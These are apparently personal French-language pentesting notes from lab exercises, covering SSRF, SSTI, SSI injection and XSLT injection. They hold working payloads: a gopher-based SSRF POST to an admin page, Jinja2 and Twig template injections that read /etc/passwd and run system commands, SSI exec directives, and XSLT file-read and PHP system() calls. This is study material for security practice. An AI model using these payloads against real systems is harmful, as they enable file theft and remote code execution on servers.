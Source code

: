 ## Server-side request forgery (SSRF)
Quand une application rapporte des ressources d'un endroit distant basé sur une entrée utilisateur.
* `http:\\`, `https:\\`
* `file:\\` lire des fichiers
* `gopher:­\\` envoyer des requêtes POST ou autre (SMTP, ... ). Créer une requête POST normale et URL encode tous charactère spécial.
```
gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin
```
[Gopherus](https://github.com/Esonhugh/Gopherus3) pour automatiser


## Server-side Template Injection (SSTI)
Code doit être injecté **avant le rendu** pour qu'il soit exécuté lors de la phase de rendu.
Détection: `${{<%[%'"}}%\.` devrait violer la syntaxe du template.
[PayloadAllTheThings CheatSheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)
![[diagram.webp]]

Jinja = 777777
twig =49

### Jinja2
```jinja2
{{ config.items() }}
{{ self.__init__.__globals__.__builtins__ }}
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
### Twig
Attention aux espaces. Utiliser `\x20` dans les strings.
```twig
{{_self}}
{{ "/etc/passwd"|file_excerpt(1,-1) }}
{{ ['id'] | filter('system') }}
```
### Outils
[SSTImap](https://github.com/vladko312/SSTImap)

## Server-side includes (SSI) Injection
SSI permet de générer du contenu dynamique. Doit pouvoir injecter des directives dans les fichiers.
`<!--#printenv -->`
`<!--#exec cmd="id" -->`

## eXtensible Stylesheet Language Transformations (XSLT) Server-Side Injection
Opère sur des données XML. noeuds commencant par xsl `<xsl:template>`

Peut être détecté par `<`
```xml
Version: <xsl:value-of select="system-property('xsl:version')" />
<br/>
Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br/>
Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
<br/>
Product Name: <xsl:value-of select="system-property('xsl:product-name')" />
<br/>
Product Version: <xsl:value-of select="system-property('xsl:product-version')" />

#Lecture de fichiers XSLT 2.0
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />
#Lecture si supporte PHP
<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />
#RCE PHP
<xsl:value-of select="php:function('system','id')" />
```